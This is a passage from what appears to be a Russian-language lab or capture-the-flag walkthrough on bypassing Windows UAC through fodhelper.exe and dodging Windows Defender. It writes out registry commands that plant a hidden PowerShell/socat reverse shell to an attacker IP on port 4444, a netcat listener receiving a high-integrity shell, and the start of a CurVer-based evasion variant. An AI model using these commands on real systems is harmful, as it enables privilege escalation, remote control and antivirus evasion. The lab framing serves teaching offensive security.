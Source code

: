`nc -lvp 4444`
И модифицируйте эксплойт для запуска fodhelper.exe сразу после установки значения реестра. Если команда выполняется 
достаточно быстро, она просто сработает  (не забудьте заменить свой IP-адрес, где это необходимо):

Командная строка
```commandline
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

В зависимости от вашей удачи, fodhelper может выполниться до того, как включится AV, вернув вам обратную оболочку. 
Если по какой-то причине это не сработает, имейте в виду, что этот метод ненадежен, поскольку он зависит от гонки 
между AV и вашей полезной нагрузкой, которые выполняются первыми. Если обратная оболочка не сработает, просто 
продолжайте и продолжайте с остальной частью комнаты, так как более последовательный способ обойти Защитника Windows 
будет дан ниже.

Оболочка атакующего
```commandline
user@kali$ nc -lvp 4444      
Listening on 0.0.0.0 4444
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Однако Windows Defender все еще предупреждает об обходе. Проблема с нашим текущим эксплойтом в том, что он дает мало 
возможностей для вариаций, поскольку для его срабатывания нам нужно написать определенные ключи реестра, что 
упрощает обнаружение Windows Defender. Но с этим еще предстоит что-то сделать.

#### Улучшение эксплойта fodhelper
@V3ded предложил вариант эксплойта fodhelper , в котором используются другие ключи реестра, но основной принцип тот же.

Вместо того, чтобы записывать нашу полезную нагрузку в `HKCU\Software\Classes\ms-settings\Shell\Open\command`, мы 
будем использовать `CurVer` запись в разделе реестра progID. Эта запись используется, когда у вас есть несколько 
экземпляров приложения с разными версиями, запущенными в одной системе. CurVer позволяет указать версию приложения 
по умолчанию, которая будет использоваться Windows при открытии заданного типа файла.
